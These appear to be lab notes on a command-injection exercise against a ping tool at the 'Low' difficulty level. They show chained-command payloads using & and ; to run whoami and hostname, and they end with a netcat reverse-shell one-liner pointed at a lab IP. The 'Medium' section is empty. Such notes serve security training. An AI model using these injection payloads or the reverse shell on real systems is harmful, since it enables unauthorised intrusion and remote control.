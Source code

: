 # Low
- we see what looks to be a ping tool
- lets test it one with valid input and another test with invalid one
- we observe that if the input valid we see output and if not we see nothing
- need to know which commands we can excute and how to chain them
- we know that the whoami and hostname commands are the exact same in both Windows and Linux
- if we were doing a black-box pentest, we would need to figure out what OS the web server uses. We could run a command unique to each OS and examine any output to see what fails
- now to how to chain commands we search and find that (&)and (;)can be used in both os linux and windows
- we try
- ```
  127.0.0.1 & whoami & hostname
  ```
- we got an output which is www-data
- we can clean the output
- ```
  127.0.0.1; echo "\nUser: $(whoami)"; echo "Hostname: $(hostname)"
  ```
- get a reverse shell
- ```
  127.0.0.1 & nc 192.168.206.129 1234 -e /bin/sh
  ```
# Medium
- 
  
